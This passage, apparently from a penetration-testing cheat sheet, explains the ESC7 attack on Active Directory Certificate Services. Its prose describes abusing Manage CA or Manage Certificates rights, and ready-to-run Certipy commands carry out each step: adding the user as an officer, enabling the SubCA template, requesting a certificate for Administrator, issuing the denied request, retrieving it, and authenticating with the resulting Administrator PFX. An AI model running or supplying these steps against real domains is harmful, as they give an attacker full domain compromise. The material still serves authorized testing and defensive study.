 ```console
$ certipy-ad auth -pfx Administrator.pfx -dc-ip <RHOST>
```

### ESC7: Vulnerable Certificate Authority Access Control

#### Description

`ESC7` is when a user has the `Manage CA` or `Manage Certificates` access right on a CA. There are no public techniques that can abuse the `Manage Certificates` access right for domain privilege escalation, but it can be used it to issue or deny pending certificate requests.

The `Certified Pre-Owned whitepaper` mentions that this access right can be used to enable the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag to perform the `ESC6` attack, but this will `not have` any effect `until` the `CA service (CertSvc)` is `restarted`.

#### Alternative Technique by ly4k without restarting the CA service (CertSvc) service

##### Prerequisistes

- User must have the `Manage Certificates` access rights
- The certificate template `SubCA` must be enabled.

The technique relies on the fact that users with the `Manage CA` and `Manage Certificates` access right can `issue failed certificate requests`. The `SubCA` certificate `template` is `vulnerable` to `ESC1`, but only administrators can enroll in the template. Thus, a `user` can request to `enroll` in the `SubCA` - `which will be denied` - but then issued by the manager afterwards.

If you only have the `Manage CA` access right, you can grant yourself the `Manage Certificates` access right by adding your user as a new officer.

##### Usage

```console
$ certipy-ad ca -ca '<CA>' -add-officer '<USERNAME>' -username '<USERNAME>@<DOMAIN>' -password '<PASSWORD>'
```

```console
$ certipy-ad ca -ca '<CA>' -enable-template SubCA -username '<USERNAME>@<DOMAIN>' -password '<PASSWORD>'
```

```console
$ certipy-ad req -ca '<CA>' -username '<USERNAME>@<DOMAIN>' -password '<PASSWORD>' -target '<CA>' -template SubCA -upn 'Administrator@<DOMAIN>'
```

```console
$ certipy-ad ca -ca '<CA>' -issue-request <ID> -username '<USERNAME>@<DOMAIN>' -password '<PASSWORD>'
```

```console
$ certipy-ad req -ca '<CA>' -username '<USERNAME>@<DOMAIN>' -password '<PASSWORD>' -target '<CA>' -retrieve <ID>
```
